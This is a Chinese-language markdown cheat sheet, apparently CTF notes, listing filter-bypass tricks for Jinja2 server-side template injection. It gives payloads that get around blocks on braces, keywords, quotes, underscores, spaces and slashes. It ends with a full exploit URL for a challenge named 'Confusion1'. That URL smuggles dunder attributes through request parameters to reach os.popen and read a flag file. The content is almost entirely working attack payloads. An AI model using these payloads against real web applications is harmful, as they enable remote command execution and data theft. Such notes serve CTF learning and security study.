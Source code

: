 - # 常见绕过手法
	- `{{`
		- `{% if ... %}1{% endif %}`
	- 关键字
		- `{{""["\x5f\x5fclass\x5f\x5f"]}}`
	- 引号
		- `(app.__doc__|list()).pop(102)|string()`
		- `dict(buil=aa,tins=dd)|join()`
		- `["a"]`可以用`[a]`代替？
	- `+`
		- `~`
		- `__add__`
		- `"a""b"`
	- 下划线
		- `config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3)`
		- `lipsum|escape|batch(22)|list|first|last`
	- 空格
		- `config|string()|list()|attr(dict(p=aa,op=bb)|join())(7)`
	- 斜杠
		- `config|string()|list()|attr(dict(p=aa,op=bb)|join())(279)`
- # 利用 request 对象绕过
	- 题目: Confusion1
	- ```
	  http://111.200.241.244:59576/a.php/{{''[request.args.clas][request.args.mo][2][request.args.sub]()[230][request.args.in][request.args.g1+request.args.g2][request.args.o+request.args.s][request.args.po+request.args.pen](request.args.cmon)[request.args.re+request.args.ad]()}}
	  ?clas=__class__
	  &mo=__mro__
	  &sub=__subclasses__
	  &in=__init__
	  &g1=__global
	  &g2=s__
	  &po=po
	  &pen=pen
	  &o=o
	  &s=s
	  &re=re
	  &ad=ad
	  &cmon=c'at' /opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt
	  ```